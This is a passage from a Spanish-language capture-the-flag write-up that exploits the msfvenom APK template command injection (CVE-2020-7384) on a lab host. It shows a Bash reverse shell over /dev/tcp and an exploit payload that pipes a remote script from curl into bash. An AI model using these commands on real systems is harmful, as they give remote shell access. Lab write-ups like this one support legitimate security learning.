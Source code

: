 Al darle a dicha opción, en la respuesta por parte del servidor se nos muestra el siguiente mensaje de error.

<figure><img src="../../.gitbook/assets/5277_vmware_oR6bJIy4GF.png" alt=""><figcaption></figcaption></figure>

Pero por parte nuestra, en nuestro servidor web se ha recibido una petición por `GET` desde la dirección IP víctima. Con lo cual, hemos confirmado que la versión que utiliza la aplicación web es `Msfvenom 6.0.11` la cual es vulnerable a `Command Injection`, además hemos podido confirmar la explotación de la vulnerabilidad.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.226 - - [02/Mar/2025 17:14:20] code 404, message File not found
10.10.10.226 - - [02/Mar/2025 17:14:20] "GET /gzzcoo HTTP/1.1" 404 -
```

Con lo cual, el siguiente paso será lograr obtener acceso al sistema. Para ello, crearemos un script en `Bash` que realice la Reverse Shell. Este script lo deberemos compartir a través de un servidor web.

```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' > shell.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Editaremos nuevamente el exploit y le indicaremos que realice una petición con `cURL` sobre nuestro script de `Bash` y se ejecute en una `bash` el script que estamos compartiendo.

{% code title="CVE-2020-7384.py" %}
```python
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl http://10.10.14.2/shell.sh|bash'
```
{% endcode %}
